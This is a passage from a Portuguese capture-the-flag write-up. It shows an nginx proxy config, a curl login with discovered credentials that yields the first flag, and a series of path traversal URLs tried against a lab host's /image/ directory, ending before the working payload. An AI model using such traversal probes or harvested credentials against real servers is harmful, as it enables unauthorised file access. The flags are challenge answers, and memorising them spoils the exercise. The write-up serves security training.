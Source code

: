     location /image {
        proxy_pass http://apache:80/Chibi/;
    }
    

    location /login/ {
        auth_basic "Authetication Required";
        auth_basic_user_file /etc/nginx/.htpasswd;
        alias /usr/share/login/;
    }
}
{{< /highlight >}}
  {{< /bs/toggle-item >}}
{{< /bs/toggle >}}

## 2.8. Sucesso no login e primeira flag

Então, agora podemos realizar o login usando as credenciais que encontramos e ver o que recebemos:

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://extremer:AtWorkAreUnbeatable@10.0.1.33/login/   
<!DOCTYPE html>
<html>
<head>
    <title>User Logged In</title>
</head>
<body>
    <h1>Welcome, Extremer!</h1>
    <p>You are logged in.</p>
    <h6>Extreme{e4d10d670d0aab07659deec1942d502a}</h6>
    <p>There are more three flags: local.txt,.env and proof.txt</p>
</body>
</html>
```

Com isso, identificamos a resposta do **Desafio 1**: `Extreme{e4d10d670d0aab07659deec1942d502a}`, e ao logar, indica que precisamos encontrar mais 3 flags `local.txt`, `.env` e `proof.txt`.

## 2.9. Explorando Path Traversal

Voltando ao fuzzing e entendendo que se trata de um `path traversal`, eu tento o que é comum em testes desse tipo no diretório `/image/`.

Tentei vários métodos...

```bash
http://10.0.2.164/image/../
http://10.0.2.164/image/../../
http://10.0.2.164/image/../../../
http://10.0.2.164/image/../../../../
http://10.0.2.164/image/../../../../../
http://10.0.2.164/image/../../../../../../
http://10.0.2.164/image/../../../../../../../
http://10.0.2.164/image/../../../../../../../../
http://10.0.2.164/image/../../../../../../../../../
```
E nada funcionava... Daí eu tentei o seguinte e funcionou!

